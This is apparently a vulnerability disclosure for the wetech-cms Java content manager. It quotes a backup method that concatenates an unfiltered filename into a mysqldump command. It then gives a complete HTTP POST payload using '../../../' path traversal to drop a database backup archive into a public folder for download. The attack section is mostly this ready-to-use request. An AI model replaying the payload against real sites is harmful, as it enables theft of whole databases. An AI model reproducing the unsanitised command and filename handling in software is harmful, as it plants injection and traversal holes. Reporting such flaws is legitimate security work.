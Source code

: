 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

#### wetech-cms-master\wetech-basic-common\src\main\java\tech\wetech\basic\util\BackupFileUtil.java

```java
	public void backup() {
		BufferedReader br = null;
		BufferedWriter bw = null;
		try {
			String cmd = "cmd /c mysqldump -u"+username+" -p"+password+" "+database;
			Process proc = Runtime.getRuntime().exec(cmd);
			br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
			bw = new BufferedWriter(
					new FileWriter(backupDir+File.separator+filename+".sql"));
			System.out.println(backupDir+File.separator+filename);
			String str = null;
			while((str=br.readLine())!=null) {
				bw.write(str);
				bw.newLine();
			}
		} catch (IOException e) {
			e.printStackTrace();
		} finally {
			try {
				if(br!=null) br.close();
			} catch (IOException e) {
				e.printStackTrace();
			}
			try {
				if(bw!=null) bw.close();
			} catch (IOException e) {
				e.printStackTrace();
			}
		}
	}
```

​	There is a directory penetration vulnerability when this function creates a compressed package, and when I traced it up, I found that there was no filter for the input parameter filename, so I could create a compressed package file anywhere, and even pass it to the upload folder and download it directly through URL access to achieve de-database.
	The payload is as follows:

```http
POST /admin/backup/add.do HTTP/1.1
Host: 172.21.55.165:8888
Content-Length: 38
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.55.165:8888
Referer: http://172.21.55.165:8888/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: cto_bundle=hVSq4l9ZUGQ2dzF1TiUyQmYlMkJhTUZKMXA1U3lTZTdnbWhmdlVhT3U1eGNIZXAlMkJyNDA1Qm83NUd5bVM1bXRONGdXMng1NVNYRHdrZXhQNmtWVk9uU0tNVnJYMjglMkJaQWFTdDRGdGRMck1DNkVvWEUyUVh5MWQlMkZvZkZ3YURyd1pnZjhvbWYlMkJMNHpWUmVCczZPc1lEeFNrMnRMYWxqSXclM0QlM0Q; collapase-nav=collapse-nav2; JSESSIONID=382FCF7BF762009C987ED7A0D73AF0C0
Connection: close

name=../../../indexPic/hadagaga123
```

​	We visit http://localhost:8888/resources/indexPic/hadagaga123.tar.gz

![image-20241127231733666](img/image-20241127231733666-1732721891177-8-1732797677430-2-1732800525202-1.png)
